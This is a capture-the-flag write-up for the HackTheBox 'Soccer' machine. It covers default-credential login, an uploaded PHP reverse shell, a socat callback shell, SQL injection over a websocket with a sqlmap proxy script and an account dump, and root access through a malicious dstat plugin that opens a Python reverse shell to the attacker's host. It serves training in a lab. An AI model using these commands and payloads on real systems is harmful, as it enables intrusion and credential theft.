

# Hackthebox - Soccer - Linux

  

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -sV -sC -p- 10.10.11.194 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-23 07:57 EST
Nmap scan report for 10.10.11.194
Host is up (0.036s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Fri, 23 Dec 2022 12:58:32 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Fri, 23 Dec 2022 12:58:32 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.93%I=7%D=12/23%Time=63A5A5F1%P=x86_64-pc-linux-gnu%r(i
SF:nformix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\
SF:r\n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\
SF:x20close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r
SF:\nContent-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-O
SF:ptions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nC
SF:ontent-Length:\x20139\r\nDate:\x20Fri,\x2023\x20Dec\x202022\x2012:58:32
SF:\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lan
SF:g=\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n<
SF:/head>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(H
SF:TTPOptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Po
SF:licy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143
SF:\r\nDate:\x20Fri,\x2023\x20Dec\x202022\x2012:58:32\x20GMT\r\nConnection
SF::\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<m
SF:eta\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>
SF:Cannot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"H
SF:TTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-
SF:src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x2
SF:0text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Fri,
SF:\x2023\x20Dec\x202022\x2012:58:32\x20GMT\r\nConnection:\x20close\r\n\r\
SF:n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"
SF:utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS
SF:\x20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2
SF:F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")
SF:%r(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnec
SF:tion:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.71 seconds

```

- We need to add the host in /etc/hosts `10.10.11.194    soccer.htb`

## Port 80

- We land on this webpage http://soccer.htb/


### Gobuster

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ gobuster dir -u http://soccer.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/12/23 08:25:35 Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
Progress: 220458 / 220561 (99.95%)===============================================================
2022/12/23 08:37:27 Finished
===============================================================

```

### Foothold

Gobuster found this page 

  
The copyright gives a link to the [github project](https://tinyfilemanager.github.io/)
If we look online we can find a default username and password `Default username/password: admin/admin@123 and user/12345`  
  
The admin one works and we are able to login
  
- We can try to get a shell by uploading a reverse shell
- `cp /usr/share/webshells/php/php-reverse-shell.php reverse.php`
- We put our ip and port in it
- We set up a listener `rlwrap nc -lvp 4444`
- We need to upload it here `/var/www/html/tiny/uploads` as it is writable.
- Once downloaded we can click on the little link icon
  
- And we get our shell

- If we ls on /home we can find a user player 
- Let's upgrade our shell `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- Here are some infos about the target

```bash
uname -a
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

To get an even better shell we can take a socat binary
- `wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat` from your kali
- Then we put on our python web server `python3 -m http.server 80`
- We also set up a listener with socat

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4445
```

- Then we go to a writable directory (/tmp will do the trick) `wget http://10.10.14.2/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.2:4445`. And we are good to go.

## Lateral movement

- Let's get linpeas in our target
  - `wget https://github.com/carlospolop/PEASS-ng/releases/download/20221218/linpeas_linux_amd64` in our kali
  - `wget http://10.10.14.2/linpeas_linux_amd64`
  - `chmod +x linpeas_linux_amd64`
  - `./linpeas_linux_amd64`

### Linepeas

- Interesting output to investigate

```bash
Vulnerable to CVE-2021-3560
╔══════════╣ Hostname, hosts and DNS
soccer                                                                                     
127.0.0.1       localhost       soccer  soccer.htb      soc-player.soccer.htb
127.0.1.1       ubuntu-focal    ubuntu-focal
══╣ Some home ssh config file was found
/usr/share/openssh/sshd_config
╔══════════╣ Searching tmux sessions
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-shell-sessions         
tmux 3.0a
/tmp/tmux-33
/etc/mysql/debian.cnf
/etc/nginx/sites-enabled
/etc/nginx/sites-available/soc-player.htb
/etc/nginx/nginx.conf
/etc/php/7.4/mods-available/ftp.ini
/usr/share/php7.4-common/common/ftp.ini
/usr/share/bash-completion/completions/bind
/var/log/nginx/access.log
/var/log/nginx/error.log
/usr/bin/rescan-scsi-bus.sh                              
/usr/bin/gettext.sh

```

- CVE 2021-3560 is a 95% PE vector so it is definitely worth to investigate 
- We have a subdomain that we did not find previously because I did not think of doing subdomain enumeration. We can update our /etc/hosts and add it `soc-player.soccer.htb` the full line will look like this `10.10.11.194 soccer.htb soc-player.soccer.htb`
- When we visit the page the website is more complete with even a signup page 
  
Let's keep this aside for now.

- So let's try the cve first. We do not have any luck here. Turns out we are missing gnome-control-center that is a requirement for it to work.

### Exploiting the subdomain 

Let's create an account.  
After a while and intercepting with burp we find that this is using websocket and that it is vulnerable to sqlinjection.  
You can not just use sqlmap right away. Once you are able to see that it is vulnerable you need to use a proxy.  
[This article by Rayhan0x01](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) actually explains the steps really well and provide a script that can act as a proxy.  
We need to modify the script so that it works for our context.  
Here is the updated script  

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
        ws = create_connection(ws_server)
        # If the server returns a response on connect, use below line
        #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here

        # For our case, format the payload in JSON
        message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
        data = '{"id":"%s"}' % message

        ws.send(data)
        resp = ws.recv()
        ws.close()

        if resp:
                return resp
        else:
                return ''

def middleware_server(host_port,content_type="text/plain"):

        class CustomHandler(SimpleHTTPRequestHandler):
                def do_GET(self) -> None:
                        self.send_response(200)
                        try:
                                payload = urlparse(self.path).query.split('=',1)[1]
                        except IndexError:
                                payload = False

                        if payload:
                                content = send_ws(payload)
                        else:
                                content = 'No parameters specified!'

                        self.send_header("Content-type", content_type)
                        self.end_headers()
                        self.wfile.write(content.encode())
                        return

        class _TCPServer(TCPServer):
                allow_reuse_address = True

        httpd = _TCPServer(host_port, CustomHandler)
        httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
        middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
        pass
```

- Let's launch our server `python3 server.py`
- And then we can just launch sqlmap `sqlmap -u "http://localhost:8081/?id=1" --batch --dbs`
- This way we could enumerate tables  

- Let's get more info on soccer_db first. We have a table accounts there, lets see what columns it has. `sqlmap -u "http://localhost:8081/?id=1" --batch --dbms=mysql -D soccer_db -T accounts --columns`  
  
- Seems to be what we are looking for, let's dump it `sqlmap -u "http://localhost:8081/?id=1" --batch --dbms=mysql -D soccer_db -T accounts --dump`

- We get the user password `PlayerOftheMatch2022` and if we try it on ssh, it works!
- Let's connect and grab the root flag `ssh player@10.10.11.194`

## Privilege escalation

- Let's run linpeas again with this user
- Interesting linpeas output to analyze further

```bash
Sudo version 1.8.31
/etc/mysql/debian.cnf
/etc/nginx/nginx.conf
/etc/nginx/fastcgi_params
/usr/share/doc/rsync/examples/rsyncd.conf
/etc/ldap
/tmp/tmux-33
/tmp/tmux-1001
/usr/share/php7.4-common/common/ftp.ini
/etc/php/7.4/mods-available/ftp.ini
/usr/share/bash-completion/completions/bind
/home/player/.viminfo
/home/player/.bash_history
/home/player/.gnupg/pubring.kbx
/home/player/.gnupg/trustdb.gpg
/home/player/snap/lxd/common/config/config.yml
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                                                                                            
  Group player:                                                                                                                                                                                                                              
/usr/local/share/dstat   
```

- Also when checking of suid `find / -perm -u=s -type f 2>/dev/null` these 2 binaries seem interesting

```bash
/usr/local/bin/doas
/usr/bin/at
```

## dstat

- The path to dstat is writable for the group `/usr/local/share/dstat`
- And the [doas](https://man.openbsd.org/doas) command def seems interesting.  
Googling more info on it it is suppose to have a config file `/etc/doas.conf` except it does not exist let's use `find` to see if it is located somewhere else `find / -name doas.conf -type f 2>/dev/null`.  
Here it is: `/usr/local/etc/doas.conf`
- If we read its content it does tie back to dstat
  
- We can read more about dstat [here](https://www.geeksforgeeks.org/dstat-command-in-linux-with-examples/)
- This command uses plugins. We could try to make a malicious plugin. Moreover when we list the plugins `dstat --list` it does look for plugins in `/usr/local/share/dstat`. So we should be able to put a malicious script there and launch it using dstat as root.
- The plugins are written in python and or writable folder can contain plugins (see [here](https://linux.die.net/man/1/dstat))
- Let's make a python reverse shell and put it in the directory in which we have write rights.

> We have to be quick it seems that our script get deleted

- Here is the script to get the reverse shell

```python
#!/usr/bin/python3

import socket,os,pty;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.2",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh")
```

- We have to name it according to the convention so I named mine `dstat_rootshell.py`
- We set out listener `rlwrap nc -lvp 4444`
- And we can launch it `/usr/local/bin/doas -u root /usr/bin/dstat --rootshell`
- We get our root shell  
  
- We can grab the root flag!
